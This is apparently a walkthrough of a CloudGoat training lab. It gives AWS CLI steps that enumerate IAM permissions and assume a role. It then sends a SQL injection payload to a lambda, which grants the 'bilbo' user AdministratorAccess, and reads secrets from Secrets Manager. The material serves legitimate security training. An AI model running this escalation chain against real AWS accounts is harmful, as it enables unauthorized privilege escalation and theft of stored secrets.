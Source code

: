 1. Get permissions for the 'bilbo' user.

    ```bash
    # This command will give you the ARN & full name of you user.
    aws --profile bilbo --region us-east-1 sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]
    # This command will list all of your permissions.
    aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
    ```

2. List all roles, assume a role for privesc.

    ```bash
    # This command will list all the roles in your account, one of which should be assumable. 
    aws --profile bilbo --region us-east-1 iam list-roles | grep cg-
    # This command will list all policies for the target role
    aws --profile bilbo --region us-east-1 iam list-role-policies --role-name [cg-target-role]
    # This command will get you credentials for the cloudgoat role that can invoke lambdas.
    aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]

    ```

3. List lambdas to identify the target (vulnerable) lambda.

    ```bash
    # This command will show you all lambda functions. The function belonging to cloudgoat (the name should start with "cg-")
    # can apply a predefined set of aws managed policies to users (in reality it can only modify the bilbo user).
    aws --profile assumed_role --region us-east-1 lambda list-functions
    ```
4. Look at the lambda source code. You should see the database structure in a comment, 
as well as the code that is handling input parameters. It's vulnerable to an injection, and 
we'll see what an exploit looks like in the next step.

    ```bash
    # This command will return a bunch of information about the lambda that can apply policies to bilbo.
    # part of this information is a link to a url that will download the deployment package, which
    # contains the source code for the function. Read over that source code to discover a vulnerability. 
    aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
    ```
5. Invoke the role applier lambda function, passing the name of the bilbo user and the injection payload. 

    ```bash
    # The following command will send a SQL injection payload to the lambda function
    aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": [bilbo_user_name_here]}' out.txt
    # cat the results to confirm everything is working properly
    cat out.txt
    ```
6. Now that Bilbo is an admin, use credentials for that user to list secrets from secretsmanager. 

    ```bash
    # This command will list all the secrets in secretsmanager
    aws --profile bilbo --region us-east-1 secretsmanager list-secrets
    # This command will get the value for a specific secret
    aws --profile bilbo --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```
